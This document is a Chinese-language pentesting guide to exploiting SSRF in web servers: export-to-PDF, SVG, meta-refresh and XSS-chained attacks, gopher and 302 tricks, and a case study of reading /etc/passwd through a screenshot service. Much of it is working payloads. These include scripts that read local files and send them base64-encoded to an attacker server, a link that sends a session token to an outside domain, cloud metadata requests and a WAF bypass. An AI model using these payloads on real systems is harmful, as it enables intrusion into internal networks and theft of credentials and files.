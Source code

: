 # SSRF

web服务器经常需要从别的服务器获取数据，比如文件载入、图片拉取、图片识别等功能，如果获取数据的服务器地址可控，攻击者就可以通过web服务器自定义向别的服务器发出请求。因为web服务器常搭建在DMZ区域，因此常被攻击者当作跳板，向内网服务器发出请求。

常见的ssrf漏洞场景（所有需要输入url的地方都可以尝试ssrf，将url改成dnslog地址，验证请求IP是否来自web服务器）：

* 远程图片拉取
* xls，doc等文件预览
* 头像加载
* 其他网站的访问截图

ssrf常用的协议：http/https、dict、file、gopher、sftp、ldap、tftp

## 漏洞检测及利用

任何需要传入URL的接口都有可能出现ssrf漏洞，可根据实际业务场景对功能接口进行漏洞验证。ssrf漏洞可分为有回显型和无回显型，有回显型ssrf可以直接通过页面加载出目标资产，可先尝试加载http://www.baidu.com 页面确认有ssrf，如果成功的话，可进一步将百度换成内网IP，通过fuzz扫描内网资产。


无回显型ssrf的检测需要先配合dnslog平台，测试dnslog平台能否获取到服务器的访问记录，如果没有对应记录，也可能是服务器不出网造成的，利用时可以通过请求响应时间判断内网资产是否存在，然后再利用内网资产漏洞（比如redis以及常见可RCE的web框架）证明漏洞的有效性。

## 导出功能SSRF

有些网站存在功能，能够将一些将数据分析的表格导出为pdf或者图片，当POST数据包中，以html文件内容作为传输，则这里可能存在ssrf漏洞

我们将html内容修改为

    svg><iframe src="攻击者服务器ip" width="800" height="850"/></svg>
    
通过攻击者服务器进行302重定向

    <iframe+src=攻击者服务器302重定向的地址">
     
    原理：
    通过header设置Location: file:///etc/passwd
    
常规payload

    <iframe src="file:///etc/password">
    document.location
    <img src=x onerror="document.write(document.location)"/>
    <img src=x onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
    <link rel=attachment href="file:///etc/passwd">
    <img src=x onerror=document.write(window.location)>
    
## SVG SSRF

由于 SVG 的功能十分丰富，所以能够处理SVG 的服务器就很有可能遭受到 SSRF、XSS、RCE 等的攻击，特别是在没有禁用一些特殊字符的情况下。

svg攻击payload

    https://github.com/allanlw/svg-cheatsheet

## meta refresh

当一些特殊标签比如,等被禁用后，我们可以使用0秒刷新请求元数据，以下为具体payload

    <meta http-equiv="refresh" content="0;url=http://metadata.tencentyun.com/latest/meta-data" />
    
## 配合XSS

    xss读取本地执行目录 然后可以尝试读取该目录下源文件
    默认存在同源策略不允许直接跨目录实现文件读取。只能读取web目录下的，绕过方法：
     
    <script>x=new XMLHttpRequest;x.onload=function()
    {document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
     
    <a href=\"javascript:var xhr=new XMLHttpRequest(); xhr.open('GET', 'https://acnjnlnopp.dgrh3.cn/'+localStorage.getItem('SCW__TOKEN__'), true); xhr.send();\">aaa</a>
    
## 外带平台利用

也可用户ssrf配合存储型xss

    poc:
    <img src=x onerror="document.write('<script src=http://攻击者服务器ip9/test.js></script>')"/>
     
    通过oob实现location重定向file:/// 实现绕过浏览器同源策略限制加载到本地文件。
    ####cat test.js
    function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="反连服务器ip地址?data='+b64+'"></iframe>');
    }
    var oReq = new XMLHttpRequest();
    oReq.addEventListener("load", reqListener);
    oReq.open("GET", "file:///etc/passwd");
    oReq.send();
    
oob平台将收到bs4的payload。

## 场景

在js中发现接口
通过接口名称大概知道是截图功能的接口，后接的url参数是可控的，将url地址改为www.baidu.com,响应包返回的数据中给出了截图地址
访问该图片地址直接下载值本地，发现正是百度的首页，url改为ceye地址，通过http记录发现UA是基于Linux上chrome内核的浏览器：
猜测请求过程：客户端通过接口传入url→web服务器接收到地址后用浏览器访问该url→访问后将网页详情截图并上传cdn→接口请求成功响应并返回截图保存地址
 
chrome浏览器默认支持：Http，Https，File，Ftp，Linux环境下先尝试读取/etc/passwd,
将url改成/etc/./././././././passwd可绕过该waf，发现部分用户的hash：
 
因为当前用户权限不够，无法读/root/.bash_history和shadow文件，也不知道web源码的绝对路径无法读配置文件，此时还可以读取/etc/hosts文件获取部分内网web资产：

## 无回显SSRF

平时遇到无回显SSRF，还可以尝试寻找内网的Confluence, Artifactory, Jenkins, 和JAMF等资产，这篇文章是专门介绍bind ssrf利用技巧的，可以作为参考：

    https://github.com/assetnote/blind-ssrf-chains
    
在GitHub搜索厂商域名关键字+jenkins、wiki、oa、git、svn等有可能出现在域名中的词，发现jenkins和confluence内网资产：

符号列表利用gopher协议直接发送POST请求。用python脚本生成gopher数据流，参考：

    https://blog.csdn.net/weixin_45887311/article/details/107327706
     
            import urllib.parse
            test =\
            """POST / HTTP/1.1
            Host: 127.0.0.1:8000
            """  
            #以上内容放置请求包内容，注意后面一定要有回车，回车结尾表示http请求结束
            tmp = urllib.parse.quote(test)
            new = tmp.replace('%0A','%0D%0A')
            result = '_'+new
            print(result)
            
除了发出HTTP请求外，gopher协议还常被用来攻击内网redis、Zabbix、FastCGI、mysql等服务，利用工具：

    https://github.com/tarunkant/Gopherus
    
ssrf不支持gopher协议时可考虑利用302跳转。条件：ssrf支持302跳转。参考：

    https://zone.huoxian.cn/d/392
     
    https://www.t00ls.cc/articles-62210.html
    
302.php发出POST请求：

        <?php
        /**
         * 发送post请求
         * @param string $url 请求地址
         * @param array $post_data post键值对数据
         * @return string
         */
        function send_post($url, $post_data) {
            $postData = http_build_query($post_data);
            $options = array(
                'http' => array(
                    'method' => 'POST',
                    'header' => 'Content-type:application/x-www-form-urlencoded',
                    'content' => $postData,
                    'timeout' => 15 * 60 // 超时时间（单位:s）
                )
            );
            $context = stream_context_create($options);
            $result = file_get_contents($url, false, $context);
        
            return $result;
        }
        
        //使用方法
        $post_data = array(
            'username' => 'stclair2201',
            'password' => 'handan'
        );
        send_post('http://vpsip:8000', $post_data);
        ?>
        
结合csrf自动提交POST表单。条件：支持跳转，无refer限制。前文提到，目标服务器可能是通过浏览器访问后再截图，因此重定向是可以实现的，这里提供一种比302跳转更方便的解决方案，直接用burp生成csrf poc，然后加入一段js来自动提交表单，这样也类似于302重定向的利用方式了。

当前场景，结合csrf自动提交POST表单的方法是最方便的，因为是半回显ssrf，命令执行结果在截图中无法提现，可通过dnslog将命令执行结果外带

    <script>
    document.forms[0].submit();
    </script>